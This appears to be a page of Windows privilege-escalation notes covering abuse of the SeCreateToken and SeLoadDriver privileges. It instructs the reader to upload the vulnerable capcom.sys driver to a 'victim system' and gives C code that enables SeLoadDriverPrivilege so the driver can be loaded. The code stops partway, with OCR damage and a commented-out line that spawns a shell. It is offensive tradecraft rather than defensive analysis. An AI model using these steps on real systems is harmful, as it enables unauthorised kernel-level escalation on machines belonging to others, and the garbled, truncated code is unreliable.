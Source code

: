 # Exploit Misconfigurations

## Privileges 
### SeCreateToken
This token **can be used** as EoP method **only** if the user **can impersonate** tokens (even without SeImpersonatePrivilege). In a possible scenario, a user can impersonate the token if it is for the same user and the integrity level is less or equal to the current process integrity level. In this case, the user could **create an impersonation token** and add to it a privileged group SID.
### SeLoadDriver
#### Capcom
Upload the capcom.sys binary on the victim system. Compile and run the code above  to get it loaded onto the system (Modify lines 55 and 56):
```
#include   "stdafx.h"
#include   &lt;windows.h&gt;
#include   &lt;stdio.h&gt;
#include   &lt;ntsecapi.h&gt;
#include   &lt;stdlib.h&gt;
#include   &lt;locale.h&gt;
#include   &lt;iostream&gt;
#include   "stdafx.h"

NTSTATUS(NTAPI *NtLoadDriver)(IN PUNICODE_STRING DriverServiceName);
VOID(NTAPI *RtlInitUnicodeString)(PUNICODE_STRING DestinationString, PCWSTR SourceString);
NTSTATUS(NTAPI *NtUnloadDriver)(IN PUNICODE_STRING DriverServiceName);

int   main()
{
     TOKEN_PRIVILEGES tp;
     LUID luid;
     bool   bEnablePrivilege(true);
     HANDLE hToken(NULL);
     OpenProcessToken(GetCurrentProcess(), TOKEN\_ADJUST\_PRIVILEGES | TOKEN_QUERY,   &hToken);
     if   (!LookupPrivilegeValue(
         NULL,   // lookup privilege on local system
         L"SeLoadDriverPrivilege",   // privilege to lookup
         &luid))   // receives LUID of privilege
     {
         printf("LookupPrivilegeValue error: %un",   GetLastError());
         return FALSE;
     }
     tp.PrivilegeCount =   1;
     tp.Privileges\[0\].Luid = luid;
     if   (bEnablePrivilege)   {
         tp.Privileges\[0\].Attributes = SE\_PRIVILEGE\_ENABLED;
     }
     // Enable the privilege or disable all privileges.
     if   (!AdjustTokenPrivileges(
        hToken,
        FALSE,
         &tp,
         sizeof(TOKEN_PRIVILEGES),
         (PTOKEN_PRIVILEGES)NULL,
         (PDWORD)NULL))
     {
         printf("AdjustTokenPrivileges error: %x",   GetLastError());
         return FALSE;
     }

     //system("cmd");
```
